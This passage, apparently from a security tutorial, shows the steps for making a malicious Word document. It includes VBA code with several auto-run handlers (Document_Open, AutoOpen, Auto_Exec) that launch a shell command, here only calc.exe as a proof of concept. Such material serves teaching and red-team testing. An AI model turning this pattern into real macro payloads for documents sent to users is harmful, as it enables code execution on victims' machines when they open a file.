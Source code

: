 Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)


Write our malicious macro code like below

```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
    Shell ("cmd /c calc.exe")
End Sub
```
